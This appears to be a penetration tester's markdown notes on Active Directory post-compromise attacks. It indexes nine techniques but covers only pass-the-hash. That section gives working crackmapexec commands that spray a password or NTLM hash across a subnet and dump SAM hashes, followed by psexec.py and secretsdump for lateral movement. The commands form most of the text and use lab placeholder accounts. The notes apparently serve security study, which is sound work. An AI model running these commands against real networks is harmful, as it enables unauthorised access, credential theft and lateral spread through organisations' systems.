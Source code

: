 # Post-Compromise Attacks

---

## Index:

- [passthehash](#passthehash)
- [Token Impersonation](#Token-Impersonation)
- [Kerberoasting](#Kerberoasting)
- [GPP cPassword Attacks](#GPP-cPassword-Attacks)
- [URL File Attacks](#URL-File-Attacks)
- [Print Nightmare](#Print-Nightmare)
- [Mimikatz](#Mimikatz)
- [Golden Ticket Attack](#Golden-Ticket-Attack)
- [Zero Logon](#Zero-Logon)

<br>

## passthehash

---

If we crack a password and/or dump the SAM Hashes, we can leverage both for lateral movement in networks!

<br>

### ??? WTF

we gotta use a tool called crackmapexec

	apt install crackmapexec

PASS THE PASS!

	crackmapexec smb {ip} -u {username} -d {domain} -p {password} --sam
	
	crackmapexec smb 192.168.0.69/16 -u Thanos -d MARVEL -p 1nf1n1ty_Gauntl3t --sam
	
OR PASS THE HASH!

	crackmapexec smb 192.168.0.69/16 -u Spiderman -H hash69f420x31337u --local-auth --sam
	
		--local-auth passes locally
		--sam dumps the SAM file
	
So, crackmapexec throws the password all around the subnet 

AND the ISSUE is a lot of ADMINS will use the SAME PASSWORDS for machines (Especially LOCAL MACHINES)
		
*Now, use smbexec, wmiexec, psexec or Metasploit to break in!*

	psexec.py domain/user:password@ip 

secretsdump: dump SAM hashes :)
